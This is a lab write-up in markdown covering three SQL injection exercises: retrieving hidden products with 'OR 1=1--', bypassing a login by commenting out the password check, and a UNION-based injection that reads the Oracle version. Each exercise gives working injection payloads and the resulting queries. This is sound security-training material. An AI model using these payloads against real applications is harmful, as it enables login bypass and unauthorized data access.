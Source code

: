 # SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data
## Lab Description
![image](Picture/lab1.png)

The query used by the application is provided in the lab description:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
This query retrieves information from the `products` table, specifically selecting products that belong to the `category` with the condition `released = 1`, meaning the products have been released.

To see all products, we need to make this condition `TRUE`.
```sql
Gifts' OR 1=1--
```
The condition `1=1` is always true, and `--` is used to start a comment in SQL, so everything after it is ignored.

# SQL Injection Vulnerability Allowing Login Bypass
## Lab Description
![image](Picture/lab2.png)

The query used in the lab will look something like:
```sql
SELECT * FROM users WHERE username = 'username' AND password = 'password';
```
I try to inject into the username field with `--` to bypass the `AND password = 'password'` condition.

```sql
WHERE username = 'administrator' --
```

This will result in a query like:
```sql
SELECT * FROM users WHERE username = 'administrator' -- ' AND password = '<PASSWORD>'
```
![image](Picture/loginbypass.png)

The final query becomes:
```sql
SELECT * FROM users WHERE username = 'administrator';
```

# SQL Injection Attack: Querying the Database Type and Version on Oracle
## Lab Description
![image](Picture/lab3.png)

In `Oracle`, every `SELECT` statement must specify a table to select `FROM`. There is a table in Oracle that can be used for this purpose called `dual`. 

There are two different methods to query the database version on Oracle:
`SELECT banner FROM v$version`, `SELECT version FROM v$instance`.

To solve the lab, find the columns containing strings. 
Steps:
- First, determine the number of columns by injecting `' ORDER BY 1--`. Here, 1 is the number of columns. Continue increasing until an error occurs, and the result indicates that there are 2 columns.
  ```sql
  SELECT * FROM someTable WHERE category = 'Pets' ORDER BY 2--
  ```
- Next, check which columns contain strings by injecting `' UNION SELECT 'a','a' FROM DUAL--`. both being string columns.
  ```sql
  SELECT * FROM someTable WHERE category = 'Pets' UNION SELECT 'a','a' FROM DUAL--
  ```
- Finally, to obtain the version information, inject `' UNION SELECT 'a', banner FROM v$version--`.
  ```sql
  SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a', banner FROM v$version--'
  ```
